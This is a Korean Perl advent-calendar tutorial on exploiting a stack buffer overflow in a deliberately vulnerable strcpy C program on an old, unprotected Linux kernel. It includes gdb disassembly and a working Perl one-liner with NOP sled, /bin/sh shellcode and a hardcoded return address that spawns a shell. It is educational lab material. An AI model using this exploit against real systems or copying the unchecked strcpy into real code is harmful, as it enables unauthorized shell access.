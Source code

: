 Title:    익스플로잇과 펄
Package:  Seoul.pm
Category: perl
Category: Seoul.pm
Author:   h00ray

저자
-----

@h00ray - 시험기간에 공부 안하고 프로그래밍 하는 잉여잉여한 학생, javaapi86 _at_ gmail.com


시작하며
---------

2014년에 들어오면서 리눅스 환경에서의 굵직한 취약점이 발표되었습니다.
[Bash 쉘 쇼크][wiki-shellshock]라던가 [OpenSSL Heartbleed][wiki-heartbleed] 말이죠.
이번 기사에서 다룰 내용은 나열한 취약점과는 거리가 있지만,
리눅스 환경에서의 해킹을 조금이라도 맛 볼겸(?)
메모리 버그의 일종인 [버퍼 오버플로우(BOF, Buffer Overflow)][wiki-bof]를
이용한 해킹 기법을 살펴보겠습니다.


배경 지식
----------

우선 공격할 리눅스 정보를 살펴볼까요?

    #!bash
    $uname -a
    Linux localhost.localdomain 2.2.14-5.0 #1 Tue Mar 7 21:07:39 EST 2000 i686 unknown

후아! 고대의 유물과 같은 버전이군요.
커널의 버전이 매우 낮다는 것을 알 수 있는데 사실 일부로 낮은 버전을 선택했습니다.
현재 최신의 리눅스 커널은 해커들의 공격을 막기위해 많은 보호 기법을 도입하고 있습니다.

이러한 보호 기법으로는
공격프로그램(exploit)이 스택이나 힙에서 실행되지 않도록 하는 [NX-bit][wiki-nx-bit],
메모리상의 공격을 방어하기위해 스택 주소를 무작위로 바꾸는 [ASLR][wiki-aslr],
상위주소를 `\x00` 값으로시작하게하는 즉 NULL처리를 시켜서 공격이 불가능하도록 하는 [ASCII armor][wiki-binary-to-text-encoding]
버퍼와 반환 주소 사이의 임의의 값이 변하면 프로그램을 종료시켜버리는 [canary][wiki-canary] 등이 있습니다.
[canary][wiki-canary]의 경우 해킹에 성공하려면 `eip`를 제어해야하는데,
이를 위해 반환 주소를 덮어써야 합니다.
하지만 canary 보호 기법이 반환 주소를 모니터링하면서, 값이 변하면 프로그램을 종료시켜 버리므로
한번에 공격할수있는 확률이 줄어들어 공격 난이도가 올라갑니다.

이처럼 다양한 보호기법이 적용되면서 예전의 방법으로 공격하기는 힘들지만,
[ROP(Return-oriented Programming)][wiki-rop]와 같은 공격 기법등 여전히 우회하는 방법은 있습니다.
이런 무지막지한 보호 기법을 우회하려는 방법인 만큼 매우 복잡하겠죠?
더 자세한 내용이 궁금하다면 [ROP(Return Oriented Programming) Exploit][home-teamcrak-rop] 문서를 참고하세요.


공격 대상
----------

그럼 지금부터 메모리 보호기법이 적용되어있지않은 리눅스 커널을 대상으로 간단한 해킹을 해보도록 하겠습니다.

공격할 프로그램입니다.
//vuln.c
//gcc -o vuln vuln.c
#include <stdio.h>

int main(int argc, char *argv[])
{
    char buffer[256];
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}

해킹에 성공하기 위해서는 "프로그램 구조를 개발자보다 잘 알아야 한다"라는 말이 있을정도로 
프로그램의 구조를 완벽하게 이해하고 있어야합니다.
그렇다면 이제 분석을 하기위해 gdb를 실행 해봅시다.
$gdb vuln 

(gdb) disass main
Dump of assembler code for function main:
0x80483f8 <main>:	push   %ebp
0x80483f9 <main+1>:	mov    %esp,%ebp
0x80483fb <main+3>:	sub    $0x100,%esp
0x8048401 <main+9>:	mov    0xc(%ebp),%eax
0x8048404 <main+12>:	add    $0x4,%eax
0x8048407 <main+15>:	mov    (%eax),%edx
0x8048409 <main+17>:	push   %edx
0x804840a <main+18>:	lea    0xffffff00(%ebp),%eax
0x8048410 <main+24>:	push   %eax
0x8048411 <main+25>:	call   0x8048340 <strcpy>
0x8048416 <main+30>:	add    $0x8,%esp
0x8048419 <main+33>:	lea    0xffffff00(%ebp),%eax
0x804841f <main+39>:	push   %eax
0x8048420 <main+40>:	push   $0x8048480
0x8048425 <main+45>:	call   0x8048330 <printf>
0x804842a <main+50>:	add    $0x8,%esp
0x804842d <main+53>:	leave  
0x804842e <main+54>:	ret    
0x804842f <main+55>:	nop    
End of assembler dump.

대충 봐도 현기증을 유발하는 디어셈블된 코드이지만 우리가 봐야 할 부분은 strcpy함수를 call하는부분 입니다.
0x8048411 <main+25>:	call   0x8048340 <strcpy> 여기만 주의 깊게 봐주면 됩니다!!!!

그렇다면 보기전에 간단하게 우선 strcpy함수를 알아봅시다.
strcpy(buffer, argv[1]);
argv[1]의 값을 buffer에 복사합니다.
네 끝이에요 한 마디로 
eax에는 buffer의 값 256byte
edx에는 argv[1]의 값이 들어가있습니다.

어셈블리 코드를 보면 edx(argv[1]) 값을 push 그후 eax(buffer)를 스택에push
strcpy(%eax,%edx); 이런식으로 들어가있는겁니다.
근데 과연 생각한게 맞는지 초호화 디버깅툴인 gdb를 사용해서 확인해보도록 하겠습니다.
디버깅을 할때 항상 그랬던 것 처럼 break point를 걸어줍니다.

(gdb) b *main+25
(gdb) r 1
Starting program: /home/vuln 1

Breakpoint 1, 0x8048411 in main ()
(gdb) x/s $edx
0xbffffca0:	 "1"

main+25에 break point를 걸었고 그후 인자를 1을 주고 실행해본결과 edx에는 역시 예상했던데로 1이라는 값이 들어가있습니다.
이제 0xffffff00이 뭘 뜻하는건지 알아야겠습니다. 16진수이므로 사람이 알아볼수있게 10진수로 바꾸면 256byte라는 값이나오네요.
256byte를 buffer가 사용하고있으니 256byte +4는 ret주소입니다.

$./vuln `perl -e 'print"A"x260'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)

perl 스크립트를 사용해서 공격해봤습니다..(펄 달력인데 이제서야 펄이나오네요..ㅜㅜ)
공격 해보니 역시 ret값을 덮어쓰니 오류를 출력하면서 프로그램이 종료되네요.
자 이제 exploit script만 작성해주면 끝입니다.


$./vuln `perl -e 'print "\x90"x125 , "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80","\x90"x110,"\x38\xf9\xff\xbf"'`
1?h//shh/bin??°
                ?8
bash$
네 공격에 성공했습니다 ;)
이제 exploit을 살펴보자면 "\x90"은 nop입니다. 그냥 아무것도 안하고 다음 명령어로 넘어갑니다.
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" 이 부분은 쉘코드입니다. 간단하게 shell을 출력해주는 기계어 집합입니다.
"\x38\xf9\xff\xbf" 이 부분은 스택의 값인데요. gdb를 통해서 본 스택 주소를 넣어주었습니다.

마치면서
크리스마스 펄 달력이라는 내용과 맞게 펄에대한 팁이나 재미있는 내용을 주제로 선정했어야하는데... 평소에 해킹을 펄로 하다보니 글을 쓸수있는 주제가 한정되어 많이 아쉽네요.
그래도 이렇게 기회를 주신 여러 관계자분들께 감사하다는 인사를 보내면서 즐겁게 모두 한 해를 마무리하셨으면 좋겠습니다.
아 그리고 읽어주셔서 감사합니다!!


[home-teamcrak-rop]:                http://teamcrak.tistory.com/332
[wiki-aslr]:                        http://en.wikipedia.org/wiki/Address_space_layout_randomization
[wiki-binary-to-text-encoding]:     http://en.wikipedia.org/wiki/Binary-to-text_encoding
[wiki-bof]:                         http://en.wikipedia.org/wiki/Buffer_overflow
[wiki-canary]:                      http://en.wikipedia.org/wiki/Buffer_overflow_protection#Canaries
[wiki-heartbleed]:                  http://en.wikipedia.org/wiki/Heartbleed
[wiki-nx-bit]:                      http://en.wikipedia.org/wiki/NX_bit
[wiki-rop]:                         http://en.wikipedia.org/wiki/Return-oriented_programming
[wiki-shellshock]:                  http://en.wikipedia.org/wiki/Shellshock_%28software_bug%29
